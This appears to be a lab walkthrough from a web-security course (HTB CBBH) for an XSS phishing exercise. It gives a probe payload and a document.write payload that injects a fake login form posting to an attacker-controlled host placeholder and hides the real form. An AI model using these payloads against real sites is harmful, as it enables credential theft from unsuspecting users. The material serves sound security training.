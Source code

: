 ## Question 1

### "Try to find a working XSS payload for the Image URL form, and then use what you learned in this section to prepare a malicious URL that injects a malicious login form. Then visit '/send.php' to send the URL to the victim, and they will log into the malicious login form. If you did everything correctly, you should receive the victim's login credentials, which you can use to login to '/login.php' and obtain the flag."

After spawning the target machine, students first need to navigate to the `/phishing` directory, `http://STMIP/phishing/`:

![[HTB Solutions/CBBH/z. images/38a1dfeee0df0097391f72ac870a4b67_MD5.jpg]]

Students then need to try various XSS payloads to find a working one, and they will find that the following payload works:

Code: javascript

```javascript
'><script>alert(1)</script>
```

![[HTB Solutions/CBBH/z. images/3806a1b71a6bd31c7437ce952009af2f_MD5.jpg]]

![[HTB Solutions/CBBH/z. images/e640e3d105b3bc8f335c40d64650acc5_MD5.jpg]]

Subsequently, students now will proceed to the phishing attack, in which they will inject HTML that will display a login form, by using `document.write` on the following HTML:

Code: html

```html
<h3>Please login to continue</h3>
<form action=http://PWNIP:PWNPO>
    <input type="username" name="username" placeholder="Username">
    <input type="password" name="password" placeholder="Password">
    <input type="submit" name="submit" value="Login">
</form>
```

Similar to the module's section, students need to remove the URL field using the `document.getElementById().remove()` function on the id `urlform`, and thus, the final JavaScript payload will be:

Code: javascript

```javascript
document.write('<h3>Please login to continue</h3><form action=http://PWNIP:PWNPO><input type="username" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" name="submit" value="Login"></form>');document.getElementById('urlform').remove();
```
